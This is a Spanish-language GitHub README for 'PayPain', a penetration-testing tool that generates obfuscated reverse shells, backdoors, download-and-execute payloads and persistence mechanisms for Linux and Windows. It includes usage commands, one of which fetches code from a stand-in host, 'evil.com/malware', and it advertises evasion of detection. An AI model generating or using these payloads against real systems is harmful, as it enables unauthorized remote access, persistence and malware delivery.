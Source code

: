 # PayPain

## Generador de Payloads ofuscados

![PayPain Banner](images/banner.png)

## Descripción

PayPain es una herramienta de generación de payloads diseñada para profesionales de seguridad informática. Facilita la creación de diversos tipos de cargas útiles para pruebas de penetración en sistemas Linux y Windows.

## ⚠️ Advertencia Legal

Esta herramienta está diseñada EXCLUSIVAMENTE para fines educativos y pruebas de seguridad autorizadas. El uso indebido de esta herramienta para acceder a sistemas sin autorización es ilegal y puede resultar en consecuencias legales graves. El autor no se hace responsable del mal uso de esta herramienta.

## Características

- Generación de múltiples tipos de payloads (reverse shells, bind shells, backdoors, etc.)
- Soporte para sistemas Linux y Windows
- Ofuscación automática para evadir detecciones básicas
- Opciones de persistencia
- Interfaz de línea de comandos intuitiva

## Instalación

```bash
# Clonar el repositorio
git clone https://github.com/Pr1or95/paypain.git
cd paypain

# Instalar dependencias
pip install -r requirements.txt
```

## Uso

### Estructura básica del comando

```bash
python Paypain.py -i <IP> -p <PUERTO> -t <TIPO_PAYLOAD> -s <SISTEMA_OPERATIVO> -o <ARCHIVO_SALIDA>
```

### Ver ayuda

```bash
python Paypain.py --help
```

### Listar payloads disponibles

```bash
# Para Linux
python Paypain.py -l -s linux

# Para Windows
python Paypain.py -l -s windows
```

### Describir un payload específico

```bash
python Paypain.py -d reverse_shell -s linux
```

### Ejemplos de uso

#### Generar un reverse shell para Linux

```bash
python Paypain.py -i 192.168.1.100 -p 4444 -t reverse_shell -s linux -o payload.sh
```

#### Generar un backdoor PowerShell para Windows

```bash
python Paypain.py -i 192.168.1.100 -p 4444 -t powershell_backdoor -s windows -o payload.ps1
```

#### Generar un payload para descargar y ejecutar un archivo

```bash
python Paypain.py -i 192.168.1.100 -p 4444 -t download_execute -s linux -o payload.sh -u http://evil.com/malware
```

## Payloads Disponibles

### Linux
- **Reverse_shell**: shell inverso que se conecta a una máquina atacante
- **Bind_shell**: shell que se vincula a un puerto en la máquina objetivo y espera conexiones
- **Download_execute**: Descarga y ejecuta un archivo de una URL remota
- **Python_backdoor**: backdoor en Python que establece una conexión con la máquina atacante
- **PHP_backdoor**: backdoor en PHP que establece una conexión con la máquina atacante
- **Bash_backdoor**: backdoor en Bash que intenta conectarse periódicamente a la máquina atacante
- **Cron_persistence**: establece una tarea cron para ejecutar periódicamente un shell inverso

### Windows
- **Reverse_shell**: shell inverso en PowerShell que se conecta a una máquina atacante
- **Bind_shell**: shell PowerShell que se vincula a un puerto y espera conexiones
- **Download_execute**: descarga y ejecuta un script PowerShell de una URL remota
- **Powershell_backdoor**: backdoor en PowerShell que intenta conectarse periódicamente a la máquina atacante
- **VBS_backdoor**: backdoor en VBScript que ejecuta un payload PowerShell oculto
- **Registry_persistence**: establece persistencia mediante el registro de Windows para ejecutar un payload al inicio de sesión
- **WMI_persistence**: establece persistencia mediante tareas programadas de Windows

## Capturas de Pantalla

![Imagen 1](images/img1.png)
![Imagen 2](images/img2.png)
![Imagen 3](images/img3.png)

## Contribución

Las contribuciones son bienvenidas:

1. Haz un fork del repositorio
2. Crea una nueva rama (`git checkout -b feature/nueva-funcionalidad`)
3. Haz commit de tus cambios (`git commit -am 'Añadir nueva funcionalidad'`)
4. Sube los cambios a tu rama (`git push origin feature/nueva-funcionalidad`)
5. Abre un Pull Request
